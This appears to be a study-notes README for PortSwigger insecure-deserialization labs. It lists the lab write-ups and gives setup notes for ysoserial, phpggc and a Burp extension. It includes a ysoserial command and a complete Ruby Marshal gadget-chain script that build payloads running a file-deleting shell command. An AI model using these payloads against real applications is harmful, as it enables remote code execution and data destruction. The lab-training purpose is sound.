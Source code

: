 # [Insecure deserialization](https://portswigger.net/web-security/deserialization)

## Lab

- apprentice:
  - [1. Modifying serialized objects](./lab/1.%20Modifying%20serialized%20objects.md)
- practitioner:
  - [2. Modifying serialized data types](./lab/2.%20Modifying%20serialized%20data%20types.md)
  - [3. Using application functionality to exploit insecure deserialization](./lab/3.%20Using%20application%20functionality%20to%20exploit%20insecure%20deserialization.md)
  - [4. Arbitrary object injection in PHP](./lab/4.%20Arbitrary%20object%20injection%20in%20PHP.md)
  - [5. Exploiting Java deserialization with Apache Commons](./lab/5.%20Exploiting%20Java%20deserialization%20with%20Apache%20Commons.md)
  - [6. Exploiting PHP deserialization with a pre-built gadget chain](./lab/6.%20Exploiting%20PHP%20deserialization%20with%20a%20pre-built%20gadget%20chain.md)
  - [7. Exploiting Ruby deserialization using a documented gadget chain](./lab/7.%20Exploiting%20Ruby%20deserialization%20using%20a%20documented%20gadget%20chain.md)

## ysoserial

A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.

install

- download: [ysoserial-all.jar](https://github.com/frohoff/ysoserial)

- install java version < 12:

```shell
$ sudo apt install openjdk-11-jre-headless
$ sudo update-alternatives --config java
There are 2 choices for the alternative java (providing /usr/bin/java).

  Selection    Path                                         Priority   Status
------------------------------------------------------------
* 0            /usr/lib/jvm/java-17-openjdk-amd64/bin/java   1711      auto mode
  1            /usr/lib/jvm/java-11-openjdk-amd64/bin/java   1111      manual mode
  2            /usr/lib/jvm/java-17-openjdk-amd64/bin/java   1711      manual mode

Press <enter> to keep the current choice[*], or type selection number: 1
```

example:

```shell
java -jar /mnt/d/Downloads/ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64 -w 0
```

## java deserialization scanner burpsuite + ysoserial

install and configure:

![config.png](./img/extension-config.png)

bug:

`Newlines in headers` problem: when using this extension i get an error, it only adds `\n` to the end of the line, not `\r\n`.

![bug.png](./img/extension-bug.png)

My temporary fix: when `set insertion point` does not set to the end of the line but leaves a few characters, then use the `delete` key to delete each character from left to right. This will preserve the existing `\r\n` character of burpsuite.

![fix-1.png](./img/fix-1.png)

![fixed.png](./img/fixed.png)

## phpggc

install:

```shell
┌──(kali㉿kali)-[~]
└─$ sudo apt-get install phpggc  
```

## ruby

```ruby
# Autoload the required classes

#edited
require 'base64'

Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
#edited
rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
#edited
puts Base64.encode64(payload)
```
